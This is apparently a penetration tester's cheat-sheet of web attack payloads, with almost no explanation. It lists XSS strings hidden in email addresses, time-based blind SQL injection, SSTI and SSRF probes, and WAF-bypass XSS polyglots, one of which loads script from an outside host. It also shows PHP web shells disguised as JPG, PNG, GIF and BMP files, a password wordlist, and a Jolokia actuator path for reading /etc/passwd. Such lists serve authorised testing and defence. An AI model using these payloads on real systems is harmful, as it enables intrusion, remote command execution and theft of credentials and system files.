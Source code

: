 Login and register payloads:

- valid Email payloads:
1. test+(<script>alert(0)</script>)@example.com
2. test@example(<script>alert(0)</script>).com
3. "<script>alert(0)</script>"@example.com


Sql injection:
(select(0)from(select(sleep(25)))v) --> Blind 25 seconds
/0'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z/ --> Time based 10 seconds
(select*from(select(sleep(10)))a) --> time based 10 seconds



SSTI template injection:
"<%= 7 * 7 %>"@example.com
test+(${{7*7}})@example.com

SSRF:
john.doe@abc123.burpcollaborator.net
john.doe@[127.0.0.1]
-------------------------
html injection(Can use match and replace in request body):
<u>123</u>


-------------
XSS:

https://netsec.expert/posts/xss-in-2021/

jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e

%3c<aa+ONLOAD+href=javasONLOADcript:promptONLOAD(1)%3e --> WAF BYPASS
<img src onerror=alt=''+document.domain> '  --> WAF Bypass

xss payload --> xss.xml:

<?xml version="1.0" encoding="UTF-8"?>
<html xmlns:html="http://w3.org/1999/xhtml">
<html:script>prompt(document.domain);</html:script>
</html>

Double quote and single quote bypass:
<xhzeem/x=" onmouseover=eva&#x6c;?.(id+/(document.domain)/.source) id=confirm>

'"onclick=(co\u006efirm)?.`0`><sVg/i="${{7*7}}"oNload=" 0>(pro\u006dpt)`1`"></svG/</sTyle/</scripT/</textArea/</iFrame/</noScript/</seLect/--><h1><iMg/srC/onerror=alert`2`>%22%3E%3CSvg/onload=confirm`3`//<Script/src=//zaggeb.xSs.ht></scripT>


<xhzeem  attr="
--- 
x="=='='onmouseover=confirm`xhzeem` style="display:block;width:1000px;height:1000px;background:red">
--- 
">

------
RCE payload to creating image:
echo -n -e '\xFF\xD8\xFF\xE0<?php system($_GET["cmd"]);?>.' > shell.jpg

echo -n -e '\x89\x50\x4E\x47<?php system($_GET["cmd"]);?>.' > shell.png

echo -n -e '\x47\x49\x46\x38<?php system($_GET["cmd"]);?>.' > shell.gif

echo -n -e '\x42\x4D<?php system($_GET["cmd"]);?>.' > shell.bmp


-------


ORWA Notes from IWCON:

Login wordlists and passwords:

password
passwd
pwd
pass
secret
ldap

Jolokia RCE:
/actuator/jolokia/exec/com.sun.management:type=DiagnosticCommand/compilerDirectivesAdd/!/etc!/hosts

-------

DiagnosticCommand/compilerDirectivesAdd/!/etc!/passwd


